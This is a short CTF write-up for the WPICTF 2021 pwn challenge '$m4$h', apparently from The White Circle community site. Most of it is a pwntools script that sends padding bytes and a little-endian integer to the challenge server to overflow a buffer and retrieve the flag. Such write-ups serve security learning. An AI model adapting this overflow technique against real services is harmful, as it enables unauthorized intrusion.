 ```yaml
---
layout: load_md
title: The White Circle | Wpictf 2021 | $m4$h Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Wpictf 2021
parent: wpictf_2021
category: pwn
challenge: $m4$h
tags: "pwn, twh"
---
```


<h1 class="heading card-title white-text">Wpictf 2021</h1>

## $m4$h

> Solved by : thewhiteh4t

```python
#!/usr/bin/env python3

from pwn import *

host = 'smash184384.wpictf.xyz'
port = 15724

junk = 'A' * 11
num = 923992130

le_num = p32(num, endianness='little')
buffer = junk.encode() + le_num + '\n'.encode()

conn = remote(host, port)
conn.send(buffer)
flag = conn.recvline().decode().split(': ')[1].strip()
print(f'\nFLAG : {flag}\n')
conn.close()
```
